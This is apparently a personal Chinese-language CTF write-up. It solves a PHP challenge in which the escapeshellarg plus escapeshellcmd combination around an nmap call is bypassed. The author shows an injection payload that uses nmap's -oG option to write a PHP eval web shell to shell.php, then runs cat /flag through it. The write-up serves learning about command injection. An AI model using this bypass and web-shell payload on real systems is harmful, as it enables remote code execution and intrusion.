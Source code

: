 ![[Pasted image 20221113171258.png]]
```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
大家是都不喜欢闭合`php`标签吗QAQ

---
搜索得知，这里`$host`经过`escapeshellarg`和`escapeshellcmd`的处理是可以被绕过的

https://paper.seebug.org/164/
> 1.  传入的参数是：`172.17.0.2' -v -d a=1`
> 2.  经过`escapeshellarg`处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
> 3.  经过`escapeshellcmd`处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为`escapeshellcmd`对`\`以及最后那个**不配对儿**的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
> 4.  最后执行的命令是`curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。所以可以简化为`curl 172.17.0.2\ -v -d a=1'`，即向`172.17.0.2\`发起请求，POST 数据为`a=1'`。

```shell
chen@cracktc-no-omen ~> echo '172.17.0.2'\\'' -v -d a=1\'  
172.17.0.2\ -v -d a=1'
```
---
`nmap`的手册中，和输出有关的参数如下
```
OUTPUT:  
  -oN/-oX/-oS/-oG <file>: Output scan results in normal, XML, s|<rIpt kIddi3,  
     and Grepable format, respectively, to the given filename.  
  -oA <basename>: Output in the three major formats at once  
  -v: Increase verbosity level (use twice for more effect)  
  -d[level]: Set or increase debugging level (Up to 9 is meaningful)  
  --packet-trace: Show all packets sent and received  
  --iflist: Print host interfaces and routes (for debugging)  
  --append-output: Append to rather than clobber specified output files  
  --resume <filename>: Resume an aborted scan  
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML  
  --no-stylesheet: Prevent Nmap from associating XSL stylesheet w/XML output
```
因此可以利用`-oG`上传木马

---
想上传的东西是这个
```php
<?php eval($_GET["cmd"]);?> -oG shell.php
```
其中像是`<`、`?`这些特殊符号必会被`escapeshellcmd`加上`\`，我们需要保证这些符号能在shell层面被直接解析
```php
'<?php eval($_GET["cmd"]);?> -oG shell.php '
```
会变成
```php
''\''<?php eval($_GET["cmd"]);?> -oG shell.php '\'''
```
然后变成
```php
''\\''\<\?php eval\(\$_GET\["cmd"\]\)\;\?\> -oG shell.php '\\'''
```
即可被解析
![[Pasted image 20221113194543.png]]
```php
/xxx/shell.php?cmd=system('cat /flag');
```
![[Pasted image 20221113194826.png]]
#Web #PHP #RCE #shell